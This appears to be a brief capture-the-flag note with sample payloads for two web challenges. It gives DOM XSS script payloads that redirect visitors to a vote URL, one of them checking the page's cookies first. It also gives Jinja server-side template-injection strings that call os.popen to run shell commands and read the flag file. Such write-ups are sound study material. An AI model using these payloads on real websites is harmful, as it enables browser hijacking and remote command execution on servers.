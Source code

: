 ### 1. vote challenge. 

>  Everyone can register and create their own profile. The main page has a public comment section. The comment will be DOM XSS enabled, and vote by calling your profile vote/ca463d3bf6f74c59bf757d500b1fcf89. A winner will be announced every 5 minutes. A flag will be printed on the profile with the most votes.

#### sample payloads. 
```
<script> document.location = 'http://localhost:1339/vote/ca463d3bf6f74c59bf757d500b1fcf89'</script>
function sleep(ms) {

    return new Promise(resolve => setTimeout(resolve, ms));

}
```

```
<script>
async function go(){

await sleep(20);

if (document.cookie.indexOf('user') > -1 ) {
  window.location.replace('http://localhost:1339/vote/be1c1a788bd04360924ccb53709a30eb');
}


}

go();
</script>
```


```
reamb<script>let uuid; for (let a of document.querySelectorAll("a")) { if(a.textContent.includes('reamb')) uuid = a.href.split('/')[4] }; location.href = '/vote/' + uuid</script>
```

2. ssti web
> payload should be no longer than 48 chars. 
 sample payloads. 
http://localhost/ssti?query={{g.__class__.__base__.__subclasses__()[92]}}

url_for.__globals__.os.popen("ls").read()
{{url_for.__globals__.os.popen("od t*").read()}}
g.pop.__globals__.os.popen("od f*").read()   # reading flag
config.__init__.__globals__.os.popen("nl * | od -b").read()


 3.
